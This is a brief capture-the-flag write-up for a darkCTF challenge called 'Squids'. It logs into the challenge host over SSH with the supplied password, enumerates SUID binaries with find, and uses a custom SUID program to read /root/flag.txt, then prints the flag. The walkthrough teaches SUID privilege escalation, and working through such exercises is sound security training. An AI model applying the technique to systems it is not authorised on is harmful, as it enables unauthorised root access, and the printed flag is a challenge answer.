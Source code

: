 ```
Description:

Squids in the linux pool

Note: No automation tool required.

ssh ctf@squid.darkarmy.xyz -p 10000 password: wolfie
```

1. With the name of the challenge Its quite clear that it has something to do with the SUID

   So, connect via the ssh. 
   
   ```
   wolf@d4c4a8eb634e: find . -type f -perm /4000 2> /dev/null
   wolf@d4c4a8eb634e: 
                        ./opt/src/src/iamroot
                        ./usr/bin/passwd
                         ./usr/bin/newgrp
                         ./usr/bin/mount
                         ./usr/bin/umount
                         ./usr/bin/chfn
                         ./usr/bin/chsh
                         ./usr/bin/su
                         ./usr/bin/gpasswd
                         ./usr/bin/sudo
                         
   wolf@d4c4a8eb634e: ./opt/src/src/iamroot
    Segmentation fault (core dumped)

   wolf@d4c4a8eb634e: ./opt/src/src/iamroot flag
      cat : flag: No such file or directory    
      
   wolf@cacef6d31c7f:/$ ./opt/src/src/iamroot /root/flag.txt
      darkCTF{y0u_f0und_the_squ1d}

```

flag: darkCTF{y0u_f0und_the_squ1d}

